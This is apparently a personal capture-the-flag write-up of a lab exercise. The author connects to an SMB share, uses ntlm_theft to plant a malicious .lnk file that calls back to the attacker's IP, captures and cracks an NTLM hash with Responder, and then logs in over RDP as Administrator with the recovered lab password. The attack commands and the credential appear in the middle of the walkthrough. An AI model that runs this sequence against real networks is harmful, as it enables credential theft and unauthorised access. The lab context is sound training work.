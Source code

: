 ::: page
# Day 23\_ Coerced Authentication Relay All the Way {#day-23_-coerced-authentication-relay-all-the-way .title}

\

![](images/15-1.png)

![](images/15-2.png)

![](images/15-3.png)

I am having a hard time to connect to SMB, I may need more experience,
these are the commands used

1.  smbclient ////10.10.253.107/ElfShare -U guest
2.  smbclient ////10.10.253.107/ElfShare -U guest%
3.  smbclient \\\\10.10.253.107\\ElfShare -U guest%
4.  smbclient \\\\10.10.253.107\\ElfShare -U guest
5.  smbclient \\\\\\\\10.10.253.107\\ElfShare -U guest
6.  smbclient \\\\\\\\10.10.253.107\\ElfShare -U guest -L
7.  smbclient \\\\\\\\10.10.253.107\\ElfShare -U=guest -L

But this is the only one that worked, I am not sure why

[ smbclient //10.10.253.107/ElfShare/ -U guest
]{style="background-color:#a51d2d;"}

![](images/15-4.png)

and then I procedeed to host a malicious lnk file using the NTLM_theft
python script

here are the commands used

1.  git clone <https://github.com/Greenwolf/ntlm_theft.git>
2.  cd ntlm_theft
3.  chmod +x ntlm_theft.py
4.  python3 ntlm_theft.py -g lnk -s 10.18.70.19 -f bonus

![](images/15-5.png)

![](images/15-6.png)

![](images/15-7.png)

and then I proceede to set up my LLMNR poisoner using the Responder

this is the capture NTLM HASH

![](images/15-8.png)I copied the hash into a text file and crack

as a side note:

I had a hard time to crack the hash because I removed the spaces after
the end\... so next time never remove the space at the end\... okay!!

![](images/15-9.png)

![](images/15-10.png)

Administrator:GreedyGrabber1@

I used xfreerdp to remote to the victim machine to get the flag

xfreerdp /v:10.10.253.107 /u:Administrator /p:GreedyGrabber1@

![](images/15-11.png)
:::

